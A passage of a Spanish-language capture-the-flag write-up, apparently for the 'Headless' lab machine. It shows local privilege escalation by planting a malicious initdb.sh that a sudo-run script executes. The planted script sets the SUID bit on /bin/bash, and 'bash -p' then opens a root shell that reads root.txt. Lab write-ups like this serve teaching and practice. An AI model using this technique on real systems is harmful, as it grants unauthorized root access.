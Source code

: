 ```bash

exit 0

dvir@headless:~/app$ ls -l /usr/bin/syscheck
-r-xr-xr-x 1 root root 768 Feb  2  2024 /usr/bin/syscheck
```

Primero de todo, revisaremos si el archivo `initdb.sh` existe en alguna ruta del sistema. Verificamos que no existe este archivo, por lo tanto, podríamos aprovecharnos de este script prara crear un archivo `initdb.sh` que haga una acción que queramos, dado que el script indicaba que si el script no estaba iniciado, lo ejecutaría.

En este caso, optamos por darle permisos de `SUID` al /bin/bash para convertirnos en usuario`root`. Creamos un archivo llamado `initdb.sh` que realizaría un cambio en el binario `/bin/bash` para darle permisos de `SUID`. Al ejecutar el binario con permisos de `sudo`, verificamos que se ha ejecutado el script y el binario de `/bin/bash` tiene permisos de `SUID`.

```bash
dvir@headless:~/app$ find / -name initdb.sh 2>/dev/null
dvir@headless:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
dvir@headless:/tmp$ cat initdb.sh
#!/bin/bash

chmod u+s /bin/bash
dvir@headless:/tmp$ chmod +x initdb.sh
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
dvir@headless:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1265648 Apr 24  2023 /bin/bash
```

Dado que el usuario `root` es el propietario de `/bin/bash` y ahora este último tiene permisos de `SUID`, abusaremos de esto para convertirnos en usuario `root` y visualizar la flag **root.txt**.

```bash
dvir@headless:/tmp$ bash -p
bash-5.2# whoami
root
bash-5.2# cat /root/root.txt
9f968961c41*********************
```
